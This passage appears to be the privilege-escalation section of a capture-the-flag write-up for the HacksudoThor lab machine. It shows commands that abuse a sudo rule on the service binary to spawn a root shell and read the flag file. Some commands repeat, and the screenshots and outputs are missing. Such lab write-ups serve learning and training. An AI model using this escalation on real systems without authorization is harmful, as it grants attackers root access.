




5. Privilege Escalation (Catch the flag)
1. List user's privileges.
thor@HacksudoThor:/usr/lib/cgi-bin$sudo -l
Output:

User ‘thor’ is allowed to run a few commands as “root”.
2. Run the “/usr/sbin/service” command.
thor@HacksudoThor:/usr/lib/cgi-bin$sudo service ../../bin/bash
It started the bash shell.
Output:

3. Run the following commands.
bash-4.3#id
bash-4.3#cd /root
bash-4.3#ls -al
bash-4.3#cat proof.txt
bash-4.3#cd /root
bash-4.3#ls -al
bash-4.3#cat proof.txt
Output:

